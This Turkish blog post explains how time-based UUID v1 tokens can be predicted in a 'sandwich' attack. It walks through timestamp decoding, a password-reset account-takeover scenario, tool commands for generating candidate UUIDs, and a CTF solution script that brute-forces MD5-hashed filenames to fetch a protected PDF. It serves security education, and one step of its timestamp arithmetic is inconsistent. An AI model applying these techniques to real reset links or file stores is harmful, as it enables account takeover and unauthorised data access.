```yaml
---
title: "UUID Sandwich Exploitation"
layout: post
---
```



Sandwich Saldırısı - UUID v1 



#### UUID 

Globally Unique Identifier (GUID) olarakta tanımlanabilir.Zafiyetli versiyonları olduğu gibi zamanla daha güçlü versiyonlarıda ortaya çıkmaktadır.
Rastgele üretilen bu benzersiz değerler saniyeninde ötesinde mikro veya nanosaniye olarak üretimler gerçekleşmektedir.Üst versiyonlarda üretilen değerler
her ne kadar fazlaca üretim gerçekleştirilsede ihtimaller çok çok düşük olsada yinede 0'a yakın değildir.Yani benzer bir değer üretilebilmektedir fakat bunu tespit etmek
bir hayli çok zor bir durumdur.Kopyalanma olasılığı düşüktür fakat asla sıfır derecede değildir.

Örnek bir UUID değeri 

```
f81d4fae-7dec-11d0-a765-00a0c91e6bf6
```

#### Exploitation

Sandwich saldırısı genelde UUID 1 Versiyonunda karşımıza çıkmaktadır.Zaman kavramına göre ve MAC cinsinden üretim yapmaktadır.Account Takeover,BOLA veya IDOR gibi 
zafiyetlere sebep olmaktadır ve kritik bir öneme sahiptir.Ayrıca aynı zamanda damgası içerisinde üretilen değerler kopyalanabilir ve saldırı vektörü oluşturulabilir.

Linuxta `UUID` komutu ile örnek değerler üretebiliriz.

UUID v1 : `6ea0f896-3144-11ef-a367-005056260027` & `6f03f496-3144-11ef-86bc-005056260027`

Burada bulunan `a367` ve `86bc` değişmiştir fakat bazen bu Version 1 de değişiklik göstermemektedir.Ayrıca değişiklik gösterilse bile `005056260027` MAC bölümü sabit kalmaktadır.

UUID v4 : `60a0cf20-f5a8-4ea2-9469-d4269f0a5bc8` & `62f4a612-6d64-48a2-a271-26217702999e` 

Burada ise tamamen ayrıldığı görülmektedir.Yani olasılıklar her ne kadar sıfır olmasada sıfıra yakın bir derecede üretmektedir.
%0.000001 derece olsa bile %100 güvenli değildir ve %99.9 güvenlik sağlasada %0.1 bir zafiyet söz konusu olabilir.
UUID v1 ise bu derece oldukça fazla artmaktadır.

Ayrıca UUID Saldırıları için `https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248` Burp Suite eklentileri ile bunu keşfedebilirsiniz.

Ayrıca Bkz. `https://datatracker.ietf.org/doc/html/rfc4122`

![folder_s3](/img/UUID/uuidv1.png)


10 Adet seri üretim

```js
f2c6e440-3145-11ef-8465-0800200c9a66
f2c6e441-3145-11ef-8465-0800200c9a66
f2c6e442-3145-11ef-8465-0800200c9a66
f2c6e443-3145-11ef-8465-0800200c9a66
f2c6e444-3145-11ef-8465-0800200c9a66
f2c6e445-3145-11ef-8465-0800200c9a66
f2c6e446-3145-11ef-8465-0800200c9a66
f2c6e447-3145-11ef-8465-0800200c9a66
f2c6e448-3145-11ef-8465-0800200c9a66
f2c6e449-3145-11ef-8465-0800200c9a66
```

Burada görüldüğü üzere zaman tamamen hassas işlenmektedir.

`Timestamp: 139384289967400006`
`Timestamp: 139384289967400007`

Değişen kısımlar ise `f2c6e447-3145-11ef` tamamen buradan ibarettir ve zaman kavramı burada oluşmaktadır.
`MAC address: 08:00:20:0c:9a:66` ise MAC Adresidir yani bu değerler genelde sabit olabilmektedir.

#### UUID Extract

UUID Değerimiz `5c1dba54-ee3e-11ee-a951-0242ac120002` 

Bizim buradaki zaman değerimiz `1eeee3e5c1dba54` bundan ibarettir.

![folder_s3](/img/UUID/UUID2.jpg)

Timestamp ise ;

```js
printf "%d\n" 0x1eeee3e5c1dba54
139310590095899220
```

Bunu Nano'dan Decimal olarak bir türe dönüştürmemiz gerekmektedir.

```sh
echo "scale=9; 139310590095899220 / 10^8" | bc
1393105900.958992200
```

`13931059009` elde edilir bu bizim TimeStamp değerimizdir ve Epoch Time olarak yuvarlamamız gerekmektedir. \
`1970-01-01 - 12219292800` baz alınarak bu çıkarımı elde edebiliriz ve `13931059009 - 12219292800` 1711766209 sayısını elde ederiz. \
1711766209 Timestamp değeri ise bize `Saturday, 30 March 2024 02:36:49` tarihini vermektedir.Böylelikte tarihi tamamen elde etmiş oluruz. 

Ayrıca GuidReaper aracı ilede UUID Decode işlemi yapabiliriz.

```js
GuidReaper -d "5c1dba54-ee3e-11ee-a951-0242ac120002"
GUID version: 1
Time: 2024-03-30 02:36:49.589922
Timestamp: 139310590095899220
Node: 2485377957890
MAC address: 02:42:ac:12:00:02
Clock sequence: 10577
```

Burada tersine işlemler gerçekleştirilerek zaman damgasında 'Time Manipulation' tekniği ile Exploitation gerçekleştirilebilir. 

#### İstismar Senaryosu

1.Sistemde bir şifre sıfırlama bağlantısı oluşturduğunu ve bunu UUID kullanarak yapıldığını varsayalım. \
2.Bir adet hesap oluşturalım `uuid@attack.com` hesabımız bir kenarda dursun ve `victim@attack.com` hesabına saldırı düzenleyelim. \
3.İki hesaptada aynı zamanda şifre yenileme bağlantısı ileteceğiz.Senkronize bir şekilde aynı zamanda bağlantıyı gönderelim.  

victim@attack.com Adresine Giden Sıfırlama Bağlantısı ; 

```php
https://server/reset_password?reset=dc464b70-314a-11ef-8465-0800200c9a66&user=victim@attack.com
```

Extract Time : `Time: 2024-06-23 10:25:06.471000` \

uuid@attack.com Adresine Giden Sıfırlama Bağlantısı ; 

```php
https://server/reset_password?reset=de7a4270-314a-11ef-8465-0800200c9a66&user=uuid@attack.com
```

Extract Time : `Time: 2024-06-23 10:25:10.167000` 

Aralarında sadece 4 Saniyelik bir oynama saptanmıştır ve bu oran otomatikleştirildiğinde `Concurrency Flaws` kullanılarak saldırı gerçekleştirildiğinde \
oldukça yüksek bir risk oluşturulacaktır.

GuidTool ilede UUID değerleri üretmek mümkündür.

`guidtool.py 667b8570-0d84-11ef-9ed0-0800200c9a66 -t "1923-10-29 20:30:00" -p 1 ` komutu ile belirlenen bir zamana yönelik fazlaca üretim gerçekleşmektedir. \
Burada çok fazla olasılık bulunmaktadır ve sayı bir hayli fazladır.

Böylelikle Broken Object Level Authorization , Insecure Direct Object References veya Account Takeover gibi zafiyetlere yol açabilmektedir.

Yayınladığım araç ilede Exploitation işlemi gerçekleştirilebilir. 


[github.com/cagrieser/Uuid-Exploitation ](https://github.com/cagrieser/Uuid-Exploitation)

#### CTF Sorusunun Çözümü

IguCtf Etkinkiğinde hazırladığımız araçta ise erişim yetkisi bulunulmayan dosyaya erişim elde edilmesine yönelik bir senaryo yer almaktadır.
Buradan yola çıkarak UUIDv1 Sandwich Exploitation ile flag elde edilebilir.

Ayrıca Dosya Adı Hash değeri verilerek herhangi bir kendi makinamızda işlemi daha seri bir şekilde hem sunucuyu yormadan hemde daha hızlı bir şekilde ulaşabiliriz. \
Buradaki amaç sadece dosyaya erişim sağlamaktır.

Aşağıda bulunan Python scripti ile ise verilen değerler üzerinden eşleştirme yapılarak hedef dosyaya erişim sağlanabilir ve Metadata verilerine erişim sağlanarak değer elde edilebilir.

```py
import hashlib
from colorama import init, Fore
import PyPDF2
import requests
import io 

init(autoreset=True)

target_hash = 'def3c4c32117683fcffad14e3b2a9b5d'


def md5_hash(text):
    return hashlib.md5(text.encode()).hexdigest()

def get_pdf_metadata_from_url(pdf_url):
    response = requests.get(pdf_url)
    if response.status_code == 200:
        
        pdf_content = response.content
        
        pdf_file = PyPDF2.PdfFileReader(io.BytesIO(pdf_content))
        metadata = pdf_file.getDocumentInfo()
        
        return metadata
    else:
        print(f"Failed to download PDF from {pdf_url}. Status code: {response.status_code}")
        return None

with open('FullAttackUUID.txt', 'r') as file:
    lines = file.readlines()

for line in lines:
    pdf_filename = line.strip() + '.pdf'  
    hashed_value = md5_hash(pdf_filename)
    
    # Compare with the target hash
    if hashed_value == target_hash:
        print(Fore.GREEN + f"Match found: {pdf_filename}")
        
        pdf_url = 'https://demindensimdiyegeldim.igusiber.com.tr/{}'.format(pdf_filename)
        metadata = get_pdf_metadata_from_url(pdf_url)
       
        if metadata:
            print("PDF Metadata:")
            for key, value in metadata.items():
                print(f"{key}: {value}")
        else:
            print("Failed to fetch PDF metadata.")
        
        break  
    else:
        print(f"No match: {pdf_filename} -> {hashed_value}")

```

![folder_s3](/img/UUID/uuid.gif)